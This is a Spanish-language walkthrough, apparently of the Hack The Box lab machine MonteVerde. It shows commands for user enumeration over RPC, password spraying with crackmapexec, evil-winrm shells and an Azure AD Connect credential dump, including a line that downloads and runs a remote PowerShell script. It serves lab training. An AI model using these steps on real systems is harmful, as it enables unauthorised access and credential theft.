 ```yaml
---
layout: post
title: MonteVerde
date: 2022-11-18
categories: ["HTB", "RPC", "SMB", "Azure"]
thumbnail: "assets/images/MonteVerde.png"
---
```


# MonteVerde [ Hack The Box ]

### Reconocimiento

#### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.172 -oG allPorts`
```
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 10.10.10.172 -oN targeted
```

Vemos que está el puerto `5985` abierto, pertenece a `WinRM`, pero no tenemos credenciales.

### RPC

Como vemos no hay ningún puerto de servidor web, así que nos tenemos que apañar con l que tenemos, en este caso vemos el puerto `139` abierto, pero cuando tratamos de listar el contenido nos deniega el acceso.

Como tampoco podemos listar el puerto `445` vamos a tratar de conseguir una sesión `RPC` sin credenciales, así que hacemos lo siguiente:

- `rpcclient -U "" -N 10.10.10.172`

Bien! Vemos que obtenemos una conexión! Vamos a desplegar información con el comando
`querydispinfo`. Vemos muchos números, pero también varios nombres de usuario con su respectivo nombre.

```
[...] Account: AAD_987d7f2f57d2 [...]
[...] Account: dgalanos [...]
[...] Account: Guest [...]
[...] Account: mhope [...]
[...] Account: roleary [...]
[...] Account: SABatchJobs [...]
[...] Account: smorgan [...]
[...] Account: svc-ata [...]
[...] Account: svc-bexec [...]
[...] Account: svc-netapp [...]
```

Vamos a copiar todos los nombres de usuario en un archivo, en mi caso llamado `users`. Una vez tenemos el archivo podemos utilizar `CrackMapEXEC` para hacer fuerza bruta. Como sólo tenemos los nombres de usuario y queremos probar algo rápido antes que algo exhaustivo vamos a probar utilizando el nombre de usuario como contraseña.

```
crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
```

```
[...]
SMB 10.10.10.172 445 MONTEVERDE [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
[...]
```

Bien! Hemos obtenido la contraseña de `SABatchJobs` (`SABatchJobs:SABatchJobs`) para `SMB`!

### Shell

Bien, como ya disponemos de credenciales válidas vamos a listar de nuevo `SMB`, pero utilizando las credenciales encontradas. En mi caso utilizaré `SMBMap` ya que directamente me dice qué directorios puedo leer, modificar o no tener acceso.

- `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJob`

```
[+] IP: 10.10.10.172:445 Name: 10.10.10.
Disk            Permissions       Comment
----            -----------       -------
ADMIN$          NO ACCESS         Remote Admin
azure_uploads   READ ONLY
C$              NO ACCESS         Default share
E$              NO ACCESS         Default share
PC$             READ ONLY         Remote IPC
NETLOGON        READ ONLY         Logon server share
SYSVOL          READ ONLY         Logon server share
users$          READ ONLY
```

Vemos un directorio que nos llama la atención llamado `users$` el cual podemos leer, vamos a ver qué tiene.

- `smbclient -U SABatchJobs //10.10.10.172/users$ SABatchJobs`

```
smb> get mhope/azure.xml
```

Bien! Tenemos un archivo XML! Vamos a ver qué contiene!

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
<Obj RefId="0">
<TN RefId="0">
<T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
<T>System.Object</T>
</TN>

<ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
<Props>
<DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
<DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
<G N="KeyId">00000000-0000-0000-0000-000000000000</G>
<S N="Password">4n0therD4y@n0th3r$</S>
</Props>
</Obj>
</Objs>
```

Wow! Vemos la contraseña de Azure en texto claro! Ahora para acceder y obtener una Shell vamos a utilizar `WinRM` ya que vimos que el puerto `5985` está abierto.

- `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

```
Info: Starting Evil-WinRM shell v1.

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents>

```

Bien! Ya estamos en la máquina como `mhope`!

### Subida de privilegios

Ahora que ya estamos en la máquina tenemos que tratar de ser administradores, así que
comenzé por enumeración básica, por lo que miraré en los grupos que se encuentra `mhope`.

```
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

Vemos que se encuentra en el grupo `Azure Admins`, así que después de estar mirando un poco llegué al directorio `C:\Program Files`, donde vemos varias carpetas con el nombre de `Azure`, con `*` podemos filtrar por la cadena que queramos.

```
*Evil-WinRM* PS C:\Program Files> ls *Azure*

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2020   2:51 PM                Microsoft Azure Active Directory Connect
d-----         1/2/2020   3:37 PM                Microsoft Azure Active Directory Connect Upgrader
d-----         1/2/2020   3:02 PM                Microsoft Azure AD Connect Health Sync Agent
d-----         1/2/2020   2:53 PM                Microsoft Azure AD Sync
```

Investigando un poco llegamos a un artículo de [`XPN`](https://blog.xpnsec.com/azuread-connect-for-redteam/). El artículo habla de cómo
explotar `Azure Connect`.

Vemos que `mhope` es capaz de conectarse a la base de datos local (ya que es administrador) y extraer la configuración, después de eso podemos decodearlo y obtener el nombre de usuario y contraseña en texto claro de la cuenta que ha manejado la réplica.

Traté de utilizar el `script` del artículo, pero tenemos que cambiar la variable `client` para hacer que conecte con la `DB`.

```
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
```

Una vez tenemos todo listo podemos montarnos un servidor en Python para pasarle el
archivo PS1 y hacer que lo corra, para eso haremos lo siguiente:

- `python3 -m http.server 80`

```
*Evil-WinRM* PS C:\Program Files> iex(new-object net.webclient).downloadstring('http://10.10.14.11/Get-MSOLCredentials.ps1')
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Bien! Ya tenemos la contraseña de `administrator` (`administrator:d0m@in4dminyeah!`)! Ahora podemos hacer como antes y con `Evil-WinRM` conectarnos como `administrator`.

Enhorabuena! Ya somos administradores de la máquina!
